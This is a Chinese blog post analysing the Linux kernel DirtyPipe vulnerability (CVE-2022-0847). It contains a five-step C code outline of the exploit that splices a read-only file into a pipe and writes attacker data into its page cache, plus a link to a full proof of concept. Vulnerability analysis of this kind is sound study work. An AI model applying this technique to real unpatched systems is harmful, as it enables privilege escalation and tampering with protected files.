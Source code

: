 ```yaml
---
layout:     post
title:  Linux 内核CVE：CVE-2022-0847
subtitle:   Linux 内核 DirtyPipe 任意只读文件覆写漏洞分析
date:       2025-08-03
author:     pandaychen
header-img:
catalog: true
tags:
    - Linux
    - Kernel
---
```


##  0x00    前言
前文[Linux 内核之旅（十五）：管道的实现](https://pandaychen.github.io/2025/07/01/A-LINUX-KERNEL-TRAVEL-15/)介绍了管道机制的内核实现原理，本文学习一个基于管道机制的非常有趣的CVE实现：[CVE-2022-0847](https://dirtypipe.cm4all.com/)

本文基于漏洞影响版本[v5.13](https://elixir.bootlin.com/linux/v5.13)来进行分析

##  0x01    CVE介绍
相关的poc代码[参考此](https://github.com/pandaychen/ebpf-allinone/blob/main/cve/2022-0847.c)，抽象为如下代码结构，这里面包含的五个步骤缺一不可

```CPP
// 1、创建管道
int p[2];
pipe(p);

// 2、填充管道（创建带有PIPE_BUF_FLAG_CAN_MERGE标志的缓冲区）
for (int i = 0; i < 8; i++)
    write(p[1], "A", 1);

// 3、清空管道（保留缓冲区结构）
for (int i = 0; i < 8; i++)
    read(p[0], &buf, 1);

// 4、使用splice将文件内容导入管道（关键漏洞触发点）
ssize_t nbytes = splice(file_fd, &file_offset, p[1], NULL, 1, 0);

// 5、向管道写入恶意数据（利用漏洞覆盖文件缓存）
write(p[1], evil_data, evil_data_len);
```

1、在受影响内核版本中，使用 `splice` 系统调用从一个只读文件（如`-r--r--r--`）向一个管道中传输数据时，会使管道用于保存数据的缓冲区共享文件的 page cache，从而实现零拷贝。但是，由于 `PIPE_BUF_FLAG_CAN_MERGE` 标志位的存在，调用 `splice` 之后再向管道中写入数据时，写入的数据会直接写到文件的 page cache 中（虽然文件是只读，但是可以通过这种巧妙的方式写入到文件page cache）

2、当另一个进程（可能是系统相关）在读此文件时，会触发读到page cache（Buffered IO），由于该文件的page cache已经被污染了，所以读到的是上一步中的写入后的脏页数据

3、低权限用户可利用此漏洞向本没有写权限的文件中写入数据，进而实现提权等恶意行为
